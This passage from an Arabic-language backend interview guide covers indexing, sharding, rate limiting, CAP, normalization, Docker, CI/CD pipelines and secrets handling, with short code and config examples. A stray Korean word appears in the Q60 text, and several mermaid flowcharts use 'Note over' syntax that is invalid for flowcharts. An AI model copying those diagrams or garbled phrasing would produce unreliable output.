

#### مثال 1: التطبيق العملي — تحويل Seq Scan إلى Index Scan وتخفيض الزمن من 200ms إلى 1ms

عند تشغيل `EXPLAIN ANALYZE` على استعلام الطلبات المعلقة، لاحظنا وجود `Seq Scan` واستغراق 180ms. بعد إضافة `CREATE INDEX idx_orders_customer_status ON orders(customer_id, status)`، أعدنا التشغيل ليتحول إلى `Index Scan` وتنخفض فترة التنفيذ إلى 0.8ms!

#### مثال 2: فخ شائع — الـ Implicit Type Casting يفسد استخدام الـ Index

من الفخاخ الشائعة عندما يكون عامود `phone` نوعه `VARCHAR` في قاعدة البيانات، ولكن الكود يمرر الرقم كـ Number: `WHERE phone = 01012345678`! محرك PostgreSQL سيضطر لتحويل كل الأرقام في الجدول لـ Number يدوياً (Implicit Cast)، مما يلغي استخدام الـ Index كلياً ويتحول إلى Seq Scan بطيء جداً!

#### مثال 3: حالة إنتاجية — كشف الـ Slow Queries التلقائي بـ `pg_stat_statements`

في بيئة Production، بنفعل إضافة **`pg_stat_statements`** في PostgreSQL. الإضافة تراقب وتجمع كل الاستعلامات المنفذة في السيرفر وتصنف بطئها، لتعرض للمهندسين قائمة بأبطأ 10 استعلامات تستهلك الـ CPU لإصلاحها فوراً.

---

## Q57 — إيه الفرق بين Database Partitioning وSharding؟

### أصل الحكاية

عندما ينمو حجم قاعدة البيانات لمنصة التجارة الإلكترونية ويتجاوز 1 Terabyte وتحتوي جدول الطلبات على 500 مليون صف... يقل أداء الـ Indexes وتصبح الصيانة والـ Backups معقدة جداً على سيرفر واحد!

أمامك تقنيتان لتقسيم البيانات الضخمة:
- **Vertical / Horizontal Partitioning (التقسيم الداخلي - بنفس السيرفر)**: تقسيم جدول ضخم واحد إلى جداول فرعية أصفر (Partitions) تعيش داخل **نفس سيرفر قاعدة البيانات الواحد** (مثال: تقسيم جدول `orders` بحسب السنة: `orders_2024`, `orders_2025`).
- **Sharding (التقسيم الموزع - على سيرفرات متعددة)**: تقسيم وتوزيع بيانات الجدول على **أجهزة وسيرفرات قواعد بيانات مستقلة تماماً (Multiple Database Nodes / Shards)** عبر الـ **Shard Key** (مثال: الزبائن من ID 1-1M على Shard 1، والزبائن من ID 1M-2M على Shard 2).



```javascript
// Application-Level Sharding Logic Example
function getShardClient(userId) {
  // Shard Key: Hash of userId modulo number of shards
  const shardIndex = userId % 3; 
  const shardClients = [dbShard0, dbShard1, dbShard2];
  return shardClients[shardIndex];
}

// Query is routed directly to target Shard Node!
const userShard = getShardClient(user.id);
const userOrders = await userShard.query('SELECT * FROM orders WHERE user_id = $1', [user.id]);
```

#### مثال 1: التطبيق العملي — تسريع الاستعلامات بـ Partition Pruning

في جدول الفواتير التاريخية، عند تقسيم الجدول بحسب الأشهر (Range Partitioning)، عندما يطلب الزبون فواتير شهر يناير `WHERE created_at >= '2025-01-01'`، محرك PostgreSQL ينفذ **Partition Pruning**: يتجاهل 99% من الجداول ويقرأ فقط Partition شهر يناير في ميكروثانية.

#### مثال 2: فخ شائع — اختيار Shard Key سيئ يسبب Hotspotting

من أكبر الأخطاء المعمارية اختيار `country` كـ Shard Key! لو 90% من زبائن المتجر من دولة واحدة (مثلاً مصر)، فـ Shard مصر سيتحمل 90% من الضغط (Hotspot Node) ويفشل، بينما باقي الـ Shards فارغة! الاختيار المثالي لـ Shard Key هو قيمة متوزعة بعشوائية منتظمة مثل `UUID` أو `userId`.

#### مثال 3: حالة إنتاجية — تعقيد الـ Cross-Shard Joins وحلها بـ Denormalization

في بيئة الـ Sharding، تنفيذ استعلام `JOIN` بين Shard 1 و Shard 2 عبر الشبكة أمر معقد جداً وبطيء! الحل الإنتاجي هو تجنب الـ Cross-Shard Joins كلياً باتباع **Denormalization (Q60)** وتكرار البيانات المشتركة أو استخدام قواعد بيانات نو-سيكويل موجهة لـ Distributed Scale.

---

## Q58 — إزاي تصمم Rate Limiting لحماية الـ Endpoints من الـ Abuse؟

### أصل الحكاية

تخيل لو قادم مهاجم أو Bot وحاول إرسال 10,000 طلب في الثانية لصفحة تسجيل الدخول لطلب تجربة كلمات سر مسروقة (Brute Force Attack)، أو طلب مفاتيح البحث لإغراق السيرفر! بدون حماية، سيتوقف سيرفر API المتجر عن العمل كلياً تحت وطأة هجوم الـ Denial of Service (DoS).

الحل هو **Rate Limiting (تحجيم معدل الطلبات)**:
تحديد حد أقصى لعدد الطلبات المسموح بها للمستخدم أو الـ IP خلال نافذة زمنية محددة (مثال: مسموح بـ 100 طلب فقط كل دقيقة لكل IP). لو تجاوز العميل الحد، يرفض السيرفر الطلب فوراً ويرجع **`429 Too Many Requests`**.

أشهر الخوارزميات:
1. **Fixed Window**: عداد بسيط يصفر كل دقيقة.
2. **Sliding Window Log / Counter (الأعدل والأشهر)**: حساب معدل الطلبات المتدفقة بسلاسة في الـ Redis.
3. **Token Bucket / Leaky Bucket**: السماح بـ Traffic Spikes محدودة مع تنظيم التدفق.



```javascript
// Production Rate Limiter with express-rate-limit & Redis
const rateLimit = require('express-rate-limit');
const RedisStore = require('rate-limit-redis');

const apiLimiter = rateLimit({
  store: new RedisStore({ sendCommand: (...args) => redisClient.call(...args) }),
  windowMs: 15 * 60 * 1000, // 15 minutes window
  max: 100, // Limit each IP to 100 requests per windowMs
  standardHeaders: true, // Return RateLimit-* headers
  legacyHeaders: false,
  message: { error: 'تجاوزت الحد المسموح من الطلبات، يرجى المحاولة بعد 15 دقيقة (429)' }
});

// Apply to sensitive routes
app.use('/api/v1/auth/login', apiLimiter);
```

#### مثال 1: التطبيق العملي — إرجاع الـ Standard RateLimit Headers للعميل

في المتجر، الـ Rate Limiter يرفق Headers مع كل رد لتوضيح الحالة للفرونت اند:
`RateLimit-Limit: 100`
`RateLimit-Remaining: 85`
`RateLimit-Reset: 1740000000`
الفرونت اند يستعرض الرقم المتبقي ويعرف موعد تجديد الصلاحية بسلاسة.

#### مثال 2: فخ شائع — استخدام In-Memory Store للـ Rate Limiting مع Horizontal Scaling

من الأخطاء الكارثية حفظ عداد الـ Rate Limit في ذاكرة السيرفر المحلي (`MemoryStore`)! لو عندك 5 سيرفرات ورا Load Balancer، الزبون يقدر يبعت 100 طلب لكل سيرفر (إجمالي 500 طلب) ويتخطى الحماية! الصواب هو حفظ العدادات مركزياً في **Redis Cache**.

#### مثال 3: حالة إنتاجية — الـ Dynamic Rate Limiting بحسب فئة الزبون (Tiered Limits)

في الـ APIs الاحترافية، بنطبق **Tiered Rate Limiting**: الزبون المجاني مسموح له بـ 60 طلب/دقيقة، بينما الزبون المشترك (Premium Merchant) مسموح له بـ 5,000 طلب/دقيقة بواسطة فحص الـ JWT Token وم مفتاح الـ API.

---

## Q59 — إيه هو CAP Theorem، وإيه معناه لمهندس الـ Backend؟

### أصل الحكاية

عند تصميم أي نظام بيانات موزع (Distributed Data System) يتكون من عدة أجهزة موصولة بشبكة... ينص مبرهنة **CAP Theorem (مبدأ بروور)** على أنه **من المستحيل علمياً وهندسياً لـ أي نظام بيانات موزع توفير الخصائص الثلاث التالية معاً في نفس اللحظة**:

1. **Consistency (C - الاتساق المطلق)**: كل القراءات ترجع أحدث كتابة تمت في النظام فوراً في كل الأجهزة بنفس الميكروثانية.
2. **Availability (A - التوفرية الدائمة)**: كل طلب قراءة أو كتابة يستقبل رداً ناجحاً (غير خطأ) في كل الأوقات من أي جهاز يعمل.
3. **Partition Tolerance (P - تحمل انقطاع الشبكة)**: يستمر النظام في العمل حتى لو انقطعت خطوط اتصالات الشبكة بين أجهزة السيرفرات.

في العالم الحقيقي، انقطاع الشبكة (Network Partition - P) أمر حتمي وقوعه! بالتالي، عند حدوث انقطاع في الشبكة، يتوجب على المهندس الاختيار الحاسم بين نظامين:
- **CP System (Consistency + Partition Tolerance)**: يفضل الاتساق والدقة؛ يرفض أو يوقف استقبال الطلبات لو لم يضمن مزامنتها مع باقي الأجهزة (مثال: MongoDB, HBase).
- **AP System (Availability + Partition Tolerance)**: يفضل الاستمرارية والتوفر؛ يرجع البيانات المتاحة فوراً حتى لو كانت قديمة ولم تنقل لباقي الأجهزة بعد (مثال: Cassandra, DynamoDB).

```mermaid
flowchart TD
    CAP[CAP Theorem Trilemma] --> C[Consistency: All nodes see same data at same time]
    CAP --> A[Availability: Every request gets a non-error response]
    CAP --> P[Partition Tolerance: System works despite network drops]

    Note over P: Network Partitions ARE Inevitable in Cloud!
    P --> CP[CP Choice: Trade Availability for Absolute Consistency e.g. Banking]
    P --> AP[AP Choice: Trade Consistency for High Availability e.g. Social Feed]
```

#### مثال 1: التطبيق العملي — اختيار CP للنظام المالي والمخزون في متجر التجارة

في منصة المتجر، عند خصم الرصيد البنكي وحجز قطع المخزون، نختار **CP System**: يفضل النظام رفض العملية وإعادة Error للزبون على أن يخصم رصيد أو يبيع قطعة غير متوفرة بسبب عدم اتساق البيانات بين السيرفرات!

#### مثال 2: فخ شائع — الظن أن قواعد البيانات التقليدية Relational DBs تنطبق عليها CAP بنفس النمط

من الفخاخ خلط مبدأ ACID في السيرفر الواحد مع CAP في الأنظمة الموزعة! مبدأ CAP صمم خصيصاً للأنظمة الموزعة (Distributed Systems) التي تتشارك البيانات عبر الشبكة، وليس لسيرفر MySQL واحد مغلق.

#### مثال 3: حالة إنتاجية — اعتناق الـ Eventual Consistency في أنظمة الـ AP

في نظام تقييمات المنتجات والإشعارات في المتجر، نختار **AP System** ونقبل بـ **Eventual Consistency**: عند إضافة الزبون لتقييم جديد، لا ينبغي إيقاف المتجر للتأكد من وصول التقييم لكل السيرفرات! تقبل السيرفرات التقييم وتتزامن البيانات في الخلفية خلال ثانيتين.

---

## Q60 — إمتى تعمل Database Normalization، وإمتى تكون الـ Denormalization هي القرار الصح؟

### أصل الحكاية

عند تصميم جداول قاعدة البيانات 관계ية (Relational DB)، يواجه المهندس قرارين معمارين متعارضين في هيكلة البيانات:

- **Normalization (التطبيع الهيكلي - 3NF)**: تقسيم البيانات إلى جداول فرعية متعددة ومترابطة بـ Foreign Keys لمنع تكرار البيانات وضمان ناهية التضارب (Data Integrity). (مثال: جدول `orders` يحتوي فقط على `user_id` و `product_id` بدلاً من تكرار اسم وعنوان الزبون في كل طلب).
- **Denormalization (إلغاء التطبيع - التكرار الموجه)**: الدمج التعمدي للبيانات وتكرارها في نفس الجدول لتفادي استعلامات الـ `JOIN` المعقدة والبطيئة وتسرع القراءة بشكل فائق.

| وجه المقارنة | Normalization (3NF) | Denormalization |
|---|---|---|
| **الهدف الأساسي** | منع تكرار البيانات وضمان الـ Integrity | تسريع استعلامات القراءة (Read Performance) |
| **سرعة الكتابة (Write)** | سريعة جداً (تعديل المكان الأصلي فقط) | أبطأ (تعديل البيانات المكررة في أماكن متعددة) |
| **سرعة القراءة (Read)** | أبطأ (تتطلب JOINs معقدة) | سريعة جداً (قراءة من جدول واحد مباشرة) |
| **المساحة (Storage)** | توفير في مساحة القرص الصلب | استهلاك مساحة أكبر بسب تكرار البيانات |

```mermaid
flowchart TD
    subgraph Normalization 3NF Strict Integrity
        O1[Orders Table: id, user_id, total] -->|JOIN| U1[Users Table: id, name, address]
    end

    subgraph Denormalization High Read Performance
        O2[Orders Table: id, user_id, user_name, user_address, total]
        Note over O2: User details duplicated inside Orders table -> Zero JOINs needed!
    end
```

```sql
-- Denormalized Schema Example for Order History
-- Duplicating product_name and price directly inside order_items to preserve historical snapshot!
CREATE TABLE order_items (
    id SERIAL PRIMARY KEY,
    order_id INT REFERENCES orders(id),
    product_id INT REFERENCES products(id),
    product_name VARCHAR(255), -- Denormalized! Product name might change in future, but order record stays immutable!
    unit_price NUMERIC(10, 2)   -- Denormalized! Price snapshot at time of purchase!
);
```

#### مثال 1: التطبيق العملي — استخدام Denormalization لحفظ لقطة الأسعار التاريخية (Price Snapshot)

في متجر التجارة الإلكترونية، عند شراء الزبون لمنتج بسعر 100$، ننسخ اسم المنتج وسعره صراحة داخل جدول `order_items` (Denormalization). لو غير التاجر سعر المنتج بعد شهر إلى 150$، فواتير الشراء القديمة تظل محتفظة بسعر 100$ دون تغيير!

#### مثال 2: فخ شائع — الـ Premature Denormalization وتضارب البيانات عند التعديل

من الفخاخ اللجوء للـ Denormalization مبكراً في بداية المشروع! لو نسخت اسم الزبون في جداول الطلبات والشحن والتقييمات... فعندما يغير الزبون اسمه، ستضطر لكتابة استعلامات `UPDATE` معقدة لتحديث الاسم في 10 جداول، ولو فشل أحدها ستصبح البيانات متضاربة كلياً!

#### مثال 3: حالة إنتاجية — الجمع بين النمطين بـ Read Replicas أو CQRS (Q96)

في المعمارية الحديثة، نلجأ للـ **Normalization في الـ Write Database (PostgreSQL)** لضمان السلامة المحاسبية، وتطبيق **Denormalization في الـ Read Database (Elasticsearch / Redis)** لتقديم ردود قراءة فائقة السرعة للعملاء.

---

> [!tip] Checkpoint نهائي للموضوع (الأداء والـ Distributed Data)
> **مراجعة محورية للأداء والبيانات الموزعة:**
> 1. **B-Tree Indexes (Q55)**: استخدم الفهارس المركبة لتخفيض زمن البحث من $O(N)$ إلى $O(\log N)$.
> 2. **EXPLAIN ANALYZE (Q56)**: حلل خطط تنفيذ SQL واستأصل استعلامات Seq Scan البطيئة.
> 3. **Partitioning & Sharding (Q57)**: قسم الجداول الكبيرة محلياً بـ Partitioning أو وزعها على سيرفرات بـ Sharding.
> 4. **Rate Limiting (Q58)**: احمِ السيرفرات بـ Sliding Window Counter في Redis وارجع `429 Too Many Requests`.
> 5. **CAP Theorem & Denormalization (Q59 & Q60)**: اختر بين CP و AP بحسب طبيعة الخدمة، ووازن بين Normalization للأمان و Denormalization للأداء.

---

## Q61 — إيه هو Docker ولإيه بيحل مشكلة "It works on my machine"؟

### أصل الحكاية

من أكبر المشاكل اللي واجهت فرق تطوير الـ Backend تاريخياً هي مشكلة "الكود شغال على جهازي ممتاز، بس واصل للسيرفر ومش شغال!". الأسباب دي بتحصل بسبب اختلاف البيئات البرمجية: نسخة Node.js مختلفة، مكتبة C++ مفقودة في السيرفر، إعدادات نظام التشغيل مختلفة بين macOS على جهاز المهندس و Ubuntu على السيرفر.

**Docker** اخترع تقنية **Containerization (الحاويات)** لتحل المشكلة دي جذرياً. بدلاً من نشر الملفات البرمجية فقط، Docker بيسمحلك بتغليف وتجميع التطبيق مع كل الكود، والـ Runtime (Node.js 20)، والمكتبات الخارجية (NPM Dependencies)، وحتى ملفات تكوين نظام التشغيل داخل **Docker Image** موحدة ومعزولة تماماً. الـ Container بيضمن إن الكود هيشتغل بـ 100% نفس السلوك والأداء المتطابق على جهاز المطور المحلي، سيرفرات الـ Staging، وسيرفرات Production السحابية.

```mermaid
flowchart LR
    subgraph Traditional Deployment Bad
        DevOS[Dev Machine: Mac/Windows] --> OS_Diff[Environment Mismatch Node v18 vs v20] --> ServerOS[Prod Server: Ubuntu Linux Crash!]
    end

    subgraph Docker Containerization Good
        AppCode[Backend Express Code] & NodeRuntime[Node.js 20 Alpine] & SystemLibs[Linux Shared Libs] --> Dockerfile[Dockerfile Build Engine]
        Dockerfile --> Image[Docker Image Immutable Package]
        Image -->|Runs Identically| ContDev[Container on Mac]
        Image -->|Runs Identically| ContProd[Container on AWS ECS / K8s]
    end
```

```dockerfile
# Production-Optimized Multi-Stage Dockerfile for Node.js API
FROM node:20-alpine AS builder
WORKDIR /app
COPY package*.json ./
RUN npm ci
COPY . .
RUN npm run build

FROM node:20-alpine AS runner
WORKDIR /app
ENV NODE_ENV=production
COPY package*.json ./
RUN npm ci --only=production
COPY --from=builder /app/dist ./dist

USER node
EXPOSE 3000
CMD ["node", "dist/main.js"]
```

#### مثال 1: التطبيق العملي — تشغيل قاعدة بيانات Postgres وRedis محلياً بـ Docker Compose

بدل ما تطلب من كل مهندس يثبت PostgreSQL وRedis يدوياً على جهازه ويتعب في الإعدادات، بنكتب ملف `docker-compose.yml`. بـ أمر واحد `docker compose up -d` السيرفرات الفرعية والـ Databases بتتفتح معزولة في 5 ثواني وتكون جاهزة لتطوير منصة التجارة الإلكترونية.

#### مثال 2: فخ شائع — بناء Docker Image بحجم 1.5 Gigabytes مع ثغرات أمنية

من الأخطاء الكارثية استخدام `FROM node:latest` بدون multi-stage build! الـ Image بتطلع ضخمة جداً (أكثـر من 1.5GB) وتحتوي على أدوات تطوير غير محتاجة في الإنتاج (زي python وgcc) وثغرات أمنية. الصواب هو استخدام **Alpine Minimal Base Images** (`node:20-alpine`) والتوزيع عبر **Multi-Stage Builds** لتكون الـ Image النهائية بحجم أقل من 100MB ومجردة من ثغرات العتاد.

#### مثال 3: حالة إنتاجية — ضمان الـ Immutable Infrastructure وعدم تعديل السيرفر يدوياً

في بيئات الإنتاج، Docker بيمكّن مبدأ **Immutable Infrastructure**: ممنوع أي مهندس يدخل SSH على سيرفر Production وينزل مكتبة أو يعدل ملف في الكود يدوياً! أي تعديل لازم يمر كـ Commit جديد يتبنى منه Docker Image جديدة ومختبرة وتتنشر كحاوية معزولة للجميع.

---

## Q62 — إيه هو الـ CI/CD Pipeline وإيه الخطوات الإجبارية فيه؟

### أصل الحكاية

في الشركات والمشاريع الكبيرة، ممنوع منعاً باتاً إن المهندس يكتب كود على جهازه ويرفعه للسيرفر مباشرة يدوي بـ FTP أو SSH! الخطأ البشري وارد، وممكن المهندس يرفع كود مكسور فيه Syntax Error أو مش عادّي الـ Unit Tests، مما يتسبب في سقوط متجر التجارة الإلكترونية وخسارة آلاف المبيعات.

الحل هو بناء **CI/CD Pipeline (خط الأنابيب الآلي للنشر والمكاملة)** باستخدام أدوات مثل GitHub Actions أو GitLab CI أو Jenkins.
- **CI (Continuous Integration - المكاملة المستمرة)**: عند كل `git push` أو Pull Request، سيرفرات الـ CI بتقوم أوتوماتيكياً بسحب الكود، تشغيل الـ Linter، وفحص نوع الـ Typescript، وتنفيذ كل الـ Unit & Integration Tests. لو أي test فشل، الـ PR بيتقفل فوراً ومابيتدمجش.
- **CD (Continuous Deployment / Delivery - النشر المستمر)**: عند دمج الكود في الـ `main` branch، الـ CD بيولّد Docker Image جديدة، يرفعها للـ Container Registry (زي ECR/DockerHub)، وينشرها تلقائياً على سيرفرات Production بدون أي تدخل يدوي بشري.

```mermaid
flowchart LR
    Dev[Developer Push Code] --> Trigger[GitHub Actions Trigger]
    subgraph CI Phase Continuous Integration
        Trigger --> Lint[1. Lint & Format Check]
        Lint --> Compile[2. TypeScript Compile]
        Compile --> Tests[3. Run Unit & Integration Tests]
    end

    subgraph CD Phase Continuous Deployment
        Tests -- Pass --> Build[4. Build Production Docker Image]
        Build --> Push[5. Push to Registry ECR]
        Push --> Deploy[6. Deploy to Production K8s Cluster]
    end
    
    Tests -- Fail --> Block[Block Deployment & Notify Slack]
```

```yaml
# GitHub Actions Workflow configuration (.github/workflows/deploy.yml)
name: CI/CD Pipeline

on:
  push:
    branches: [ main ]

jobs:
  build-and-test:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      - uses: actions/setup-node@v4
        with:
          node-version: '20'
          cache: 'npm'
      - run: npm ci
      - run: npm run lint
      - run: npm run test:unit
      - run: npm run test:integration

  deploy:
    needs: build-and-test
    runs-on: ubuntu-latest
    steps:
      - name: Build and Push Docker Image
        run: |
          docker build -t store-api:${{ github.sha }} .
          docker tag store-api:${{ github.sha }} registry.store.com/store-api:latest
          docker push registry.store.com/store-api:latest
      - name: Trigger Production Deployment
        run: curl -X POST https://deploy.store.com/webhook?tag=${{ github.sha }}
```

#### مثال 1: التطبيق العملي — منع دمج الكود المكسور بـ Pull Request Checks

في منصة المتجر، بنظبط قواعد GitHub بحيث ينادي Workflow الـ CI تلقائياً على أي Pull Request. لو المهندس نسى يضيف فحص لمحتوى الكارت والـ Integration Tests فشلت، الـ Pull Request هيعلم بأحمر ويمنع الـ Merge لحماية الكود الرئيسي من الأعطال.

#### مثال 2: فخ شائع — تخطي الاختبارات (Skipping Tests) لتسريع الـ Deployment

من الفخاخ الإدارية والفنية الشائعة هو لما يكون فيه مستعجل في النشر، يقوم المطور يكتب `--skip-tests` في ملف الـ CI Pipeline لتوفير دقيقتين! الفخ إن الدقيقتين دول ممكن يسببو رفع كود مكسور يوقف شاشة الـ Checkout لـ 4 ساعات ويدمر سمعة المتجر.

#### مثال 3: حالة إنتاجية — آلية الـ Automatic Rollback عند فشل النشر

في الـ CD Pipeline الاحترافي، بعد ما الحاوية الجديدة تتنشر على Production، الـ Pipeline بيفحص صحة النظام بـ **Health Check Query** (`GET /health`). لو الحاوية رجعت `500 Server Error` في أول 30 ثانية، الـ CD بيعمل **Automatic Rollback** فوراً ويبعت تنبيه عاجل لمهندسي الـ On-Call على Slack/PagerDuty.

---

## Q63 — إزاي بتدير الـ Secrets والـ Environment Variables بأمان في Production؟

### أصل الحكاية

من أكبر الأخطاء الكارثية في أمان تطبيقات الـ Backend هي كتابة أسرار النظام (زي كلمة سر قاعدة البيانات، أو API Keys لخدمة Stripe، أو JWT Secret Key) صراحة داخل الكود المصدر المرفوع على Git repository (Hardcoding Secrets). أي شخص أو هكر يوصل لـ Git Repo هيقدر يسرق كل مفاتيح المنصة والبيانات البنكية!

القاعدة المعمارية الصارمة (The Twelve-Factor App): **فصل الإعدادات والأسرار تماماً عن الكود.**
في الباك اند، بنقرأ كل المتغيرات الحساسة من **Environment Variables (`process.env`)**. في بيئة التطوير المحلية، بنحفظهم في ملف `.env` محلي غير مرفوع على Git صراحة (`.gitignore`). وفي بيئة Production، بنضخ الأسرار عبر خدمات إدارة الأسرار السحابية المشفرة (Cloud Secrets Management) مثل **AWS Secrets Manager** أو **HashiCorp Vault** أو **Kubernetes Secrets**.

```mermaid
flowchart TD
    subgraph Secret Management Architecture
        DevLocal[Local Machine: Reads .env file local only]
        GitRepo[Git Repository: .env is in .gitignore NEVER COMMITTED!]
        
        ProdK8s[Production Kubernetes Cluster]
        Vault[AWS Secrets Manager / HashiCorp Vault] -->|Injected at runtime| ProdK8s
        ProdK8s -->|Available as env vars| AppNode[Node.js Process: process.env.DB_PASS]
    end
```

```javascript
// Validating Environment Variables on Startup with Zod
import { z } from 'zod';

const envSchema = z.object({
  NODE_ENV: z.enum(['development', 'production', 'test']),
  PORT: z.string().transform(Number).default('3000'),
  DATABASE_URL: z.string().url('رابط قاعدة البيانات غير صحيح'),
  JWT_SECRET: z.string().min(32, 'مفتاح JWT يجب أن يكون 32 حرف على الأقل'),
  STRIPE_SECRET_KEY: z.string().startsWith('sk_'),
});

// Fail fast on server start if environment variables are missing or invalid!
export const env = envSchema.parse(process.env);
```

#### مثال 1: التطبيق العملي — التحقق من وجود الأسرار عند بدء تشغيل السيرفر (Fail-Fast)

في تطبيق المتجر، بنستخدم مكتبة مثل Zod للتحقق من وجود وصحة كل المتغيرات البيئية عند بداية السيرفر. لو المهندس نسى يرفع `STRIPE_SECRET_KEY` في بيئة الـ Staging، السيرفر هيفشل في البدء فوراً (Fail Fast) بطباعة خطأ واضح بدلاً من التشغيل المكسور واكتشاف المشكلة عند قيام أول زبون بالشراء.

#### مثال 2: فخ شائع — تسريب الأسرار في الـ Docker Images أو الـ Client Bundles

من الأخطاء الكارثية كتابة `ENV STRIPE_KEY=sk_live_123` صراحة داخل الـ Dockerfile! أي شخص يسحب الـ Docker Image يقدر يستخرج الـ Layer ويقرأ المفتاح. الفخ الثاني هو كتابة أسرار الباك اند في متغيرات يبدأ اسمها بـ `NEXT_PUBLIC_` أو `REACT_APP_` مما يجعل الفرونت اند يضمن المفتاح السري داخل ملفات الكود المرسلة لمتصفح الزبائن!

#### مثال 3: حالة إنتاجية — تدوير المفاتيح التلقائي (Automatic Secret Rotation)

في المنصات المالية والتجارية الكبيرة، بنطبق **Automatic Secret Rotation**: مفاتيح التشفير وقواعد البيانات بتتغير تلقائياً كل 30 يوم بواسطة AWS Secrets Manager. الخدمة بتولّد كلمة سر جديدة لقواعد البيانات، وتحدث قاعدة البيانات والسيرفرات بدون أي Downtime للطلب.

---

## Q64 — إيه دور Nginx كـ Reverse Proxy وLoad Balancer؟

### أصل الحكاية

